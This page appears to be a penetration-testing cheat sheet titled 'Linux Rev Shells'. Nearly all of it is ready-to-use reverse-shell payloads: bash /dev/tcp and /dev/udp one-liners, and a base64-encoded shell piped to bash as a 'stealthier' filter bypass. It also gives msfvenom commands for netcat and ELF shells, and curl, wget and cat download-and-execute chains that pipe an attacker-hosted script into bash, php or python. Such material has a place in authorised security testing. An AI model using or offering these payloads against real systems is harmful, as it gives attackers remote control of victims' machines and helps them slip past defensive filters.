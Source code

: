 # Linux Rev Shells

{% tabs %}
{% tab title="bash|sh" %}
### Payloads

```bash
curl http://reverse-shell.sh/1.1.1.1:3000 | bash
<sh -i >& /dev/udp/<LHOST>/<LPORT> 0>&1 #UDP
0<&196;exec 196<>/dev/tcp/<ATTACKER-IP>/<PORT>; sh <&196 >&196 2>&196
exec 5<>/dev/tcp/<ATTACKER-IP>/<PORT>; while read line 0<&5; do $line 2>&5 >&5; done

#Short and bypass (cretdits to Dikline)
(sh)0>/dev/tcp/10.10.10.10/9091
#after getting the previous shell, to get the output execute
exec >&0
```

### Bypass

```bash
#If you need a more stable connection do:
bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'

#Stealthier method
echo "bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'" | base64 -w 0
echo -n bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjQuMTg1LzQ0NDQgMD4mMScK | base64 -d | bash
```

{% hint style="warning" %}
In base64, we must be careful with the symbols **+** , because if it is being processed in URL Encode, it may be interpreted as a space. To solve this, we can copy the payload and play with CyberChief. For example, the following payload encoded in base64 does not have the **+** symbols: `bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'` (note the double spaces we left in some parts).
{% endhint %}
{% endtab %}

{% tab title="msfvenom" %}
```bash
# To generate a netcat command:
msfvenom -p cmd/unix/reverse_netcat LHOST=<LHOST> LPORT=<LPORT> R
# ELF file:
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf -o <outout_name>.elf
chmod +x <FILE>.elf
```
{% endtab %}

{% tab title="Download" %}
We can create a script in Bash with a script to get a reverse shell, and then host it on a simple web server so we can download it and run it with tools like `curl`, `wget` and `cat`.

The bash script would be as follows:

```bash
#!/bin/bash

bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
```

And to download it and run it in a single command, we can do it in multiple ways:

```bash
curl http://<LHOST>/shell.sh | bash
wget -qO- http://<LHOST>/shell.sh | bash
# With cat it is preferable to open a server with nc:
sudo nc -nlvp 80 < shell.sh # Attacker machine
cat < /dev/tcp/<LHOST>/80 | bash # Victim machine (method 1)
bash -c 'cat < /dev/tcp/<LHOST>/80 | bash' # Victim machine (method 2)
```

{% hint style="warning" %}
Another thing we can do is to create an index.html file with the payload (i.e. with the contents of **shell.sh**). Then we do: `wget -qO- <LHOST> | bash` . This way we avoid keywords like **http**, **slashes** ("/") or **colons** (":").
{% endhint %}
{% endtab %}

{% tab title="Different languages" %}
```bash
curl <LHOST>/shell.txt|bash # To execute a Bash script.
curl <LHOST>/shell.txt|php # To execute a PHP script
curl <LHOST>/shell.txt|python3 # To execute a Python script.
```
{% endtab %}
{% endtabs %}




